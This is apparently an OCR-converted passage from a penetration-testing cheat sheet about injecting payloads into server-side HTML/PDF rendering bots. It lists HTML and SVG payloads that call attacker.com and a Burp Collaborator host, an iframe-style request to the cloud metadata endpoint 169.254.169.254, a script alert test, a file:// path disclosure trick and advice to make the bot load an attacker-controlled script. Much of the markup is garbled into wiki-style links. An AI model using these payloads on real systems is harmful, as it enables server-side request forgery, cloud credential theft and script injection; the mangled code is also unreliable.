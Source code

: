 ```html

<!-- Loading external components -->

[[http://attacker.com|http://attacker.com]]

[[http://attacker.com|http://attacker.com]]

[[http://attacker.com|http://attacker.com]]

![[data:image/svg+xml;base64,PHN2ZyBzcmM9Imh0dHA6Ly9hdHRhY2tlci5jb20iPjwvc3ZnPg==|SVG Image]]
```
```
### SVG

Any of the previous of following payloads may be used inside this SVG payload. One iframe accessing Burpcollab subdomain and another one accessing the metadata endpoint are put as examples.

```html
<svg xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1" class="root" width="800" height="500">
    <g>
        <foreignObject width="800" height="500">
            <body xmlns="http://www.w3.org/1999/xhtml">
                [[http://redacted.burpcollaborator.net|http://redacted.burpcollaborator.net]]

                [[http://169.254.169.254/latest/meta-data/|http://169.254.169.254/latest/meta-data/]]

            </body>
        </foreignObject>
    </g>
</svg>

<svg width="100%" height="100%" viewBox="0 0 100 100"
     xmlns="http://www.w3.org/2000/svg">
  
  <script type="text/javascript">
    // <![CDATA[
      alert(1);
   // ]]>
  </script>
</svg>
```
```
You can find a lot **other SVG payloads** in [[https://github.com/allanlw/svg-cheatsheet|**https://github.com/allanlw/svg-cheatsheet**]]

### Path disclosure

```html
<!-- If the bot is accessing a file:// path, you will discover the internal path
if not, you will at least have wich path the bot is accessing -->
![[x|]]

```
```
### Load an external script

The best conformable way to exploit this vulnerability is to abuse the vulnerability to make the bot load a script you control locally. Then, you will be able to change the payload locally and make the bot load it with the same code every time.

```html

![[xasdasdasd]]
```